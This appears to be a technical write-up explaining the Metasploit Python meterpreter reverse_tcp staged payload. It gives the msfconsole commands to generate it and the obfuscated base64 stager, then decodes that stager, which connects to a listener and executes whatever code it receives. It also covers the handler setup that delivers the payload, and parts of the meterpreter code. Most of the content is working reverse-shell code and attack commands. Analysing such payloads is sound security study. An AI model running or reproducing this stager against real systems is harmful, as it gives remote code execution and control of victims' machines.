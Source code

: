 # Metasploit Python meterpreter/reverse_tcp (staged payload)

## Stager

### Generate
```
msf5> use payload/python/meterpreter/reverse_tcp
msf5 payload(python/meterpreter/reverse_tcp) > generate -f raw -o stager.py
```

### Result
```python
import base64,sys;exec(base64.b64decode({2:str,3:lambda b:bytes(b,'UTF-8')}[sys.version_info[0]]('aW1wb3J0IHNvY2tldCxzdHJ1Y3QsdGltZQpmb3IgeCBpbiByYW5nZSgxMCk6Cgl0cnk6CgkJcz1zb2NrZXQuc29ja2V0KDIsc29ja2V0LlNPQ0tfU1RSRUFNKQoJCXMuY29ubmVjdCgoJzE3Mi4xNy4wLjInLDQ0NDQpKQoJCWJyZWFrCglleGNlcHQ6CgkJdGltZS5zbGVlcCg1KQpsPXN0cnVjdC51bnBhY2soJz5JJyxzLnJlY3YoNCkpWzBdCmQ9cy5yZWN2KGwpCndoaWxlIGxlbihkKTxsOgoJZCs9cy5yZWN2KGwtbGVuKGQpKQpleGVjKGQseydzJzpzfSkK')))
```

Note: the dict is used to apply py2/3 compatibility with regards to decoding strings

#### Base64 Decoded Content
```python
import socket,struct,time
for x in range(10):
	try:
		s=socket.socket(2,socket.SOCK_STREAM) # 2 = socket.AF_INET
		s.connect(('172.17.0.2',4444))        # connect to target IP
		break
	except:
		time.sleep(5)                         # sleep 5 secs after each try
l=struct.unpack('>I',s.recv(4))[0]        # Read the length of the payload into a 4 byte unsigned integer in native byte order
d=s.recv(l)                               # receive data, bufsize=l
while len(d)<l:
	d+=s.recv(l-len(d))
exec(d,{'s':s})                           # provide the socket file descriptor as global var 's' to payload in d
```

## Payload (meterpreter)
The payload is sent when executing the multi/handler exploit module with the
corresponding payload:
```
msf5> use exploit/multi/handler
msf5 exploit(multi/handler) > set payload python/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set lhost 127.0.0.1
msf5 exploit(multi/handler) > set lport 4444
msf5 exploit(multi/handler) > exploit
```

The first 4 bytes contain the length of the payload, i.e. 0xd1fb = 53755 bytes.
The python meterpreter client follows (full contents in file `payload.py`).
```
00000000  00 00 d1 fb                                        ....
00000004  23 21 2f 75 73 72 2f 62  69 6e 2f 70 79 74 68 6f   #!/usr/b in/pytho
00000014  6e 0a 69 6d 70 6f 72 74  20 62 69 6e 61 73 63 69   n.import  binasci
00000024  69 0a 69 6d 70 6f 72 74  20 63 6f 64 65 0a 69 6d   i.import  code.im
...
```

Towards the end of the payload, the meterpreter is invocated using the socket
provided by the stager in variable `s`:
```python
...
_try_to_fork = TRY_TO_FORK and hasattr(os, 'fork')
if not _try_to_fork or (_try_to_fork and os.fork() == 0):
    if hasattr(os, 'setsid'):
        try:
            os.setsid()
        except OSError:
            pass
    if HTTP_CONNECTION_URL and has_urllib:
        transport = HttpTransport(HTTP_CONNECTION_URL, proxy=HTTP_PROXY, user_agent=HTTP_USER_AGENT,
                http_host=HTTP_HOST, http_referer=HTTP_REFERER, http_cookie=HTTP_COOKIE)
    else:
        # PATCH-SETUP-STAGELESS-TCP-SOCKET #
        transport = TcpTransport.from_socket(s)
    met = PythonMeterpreter(transport)
    # PATCH-SETUP-TRANSPORTS #
    met.run()
```
